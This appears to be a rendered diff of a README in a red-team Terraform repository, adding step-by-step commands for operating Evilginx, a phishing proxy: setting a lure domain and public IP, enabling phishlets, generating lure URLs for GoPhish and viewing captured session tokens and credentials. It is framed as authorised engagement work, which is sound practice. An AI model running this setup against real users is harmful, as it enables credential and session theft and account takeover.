

Before and after one commit to H3llKa1ser/Terraform-Projects, a Markdown page: redteam-infra/README.md, the part around the change. Shown at 93% size. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/redteam-infra/README.md
+++ b/redteam-infra/README.md
@@ -88,3 +88,30 @@ The `31337` port and the heredoc comments (e.g., *"Sliver/Mythic console"*) are
 1. Set `c2_listener_port` / `dns_listener_port` to your framework's listener ports.
 2. Change the `31337` references (in `security_groups.tf` and the `outputs.tf` tunnel command) to your framework's operator/console port.
 3. Make sure the C2's listeners **bind to the team server's private IP** so the redirectors can reach them.
+
+# 1. SSH to Evilginx via the bastion
+ssh -J ubuntu@<bastion_ip> ubuntu@<evilginx_private_ip>
+
+# 2. Attach to the running Evilginx console
+sudo tmux attach -t evilginx
+
+# 3. Inside the Evilginx console, configure it:
+config domain   secure-portal.example-engagement.com
+# Use the PUBLIC edge IP victims will reach:
+#   - redirector public IP  (if redirector enabled)   <-- recommended
+#   - evilginx public IP    (if redirector disabled)
+config ipv4 external <PUBLIC_EDGE_IP>
+
+# 4. Set up a phishlet (must match the target service; in RoE scope)
+phishlets hostname <phishlet> secure-portal.example-engagement.com
+phishlets enable <phishlet>
+
+# 5. Create a lure and get its URL (this is what GoPhish links to)
+lures create <phishlet>
+lures get-url <id>
+
+# 6. Watch for captured sessions
+sessions
+sessions <id>      # view captured tokens/credentials
+
+# Detach without stopping Evilginx:  Ctrl-b  then  d
```
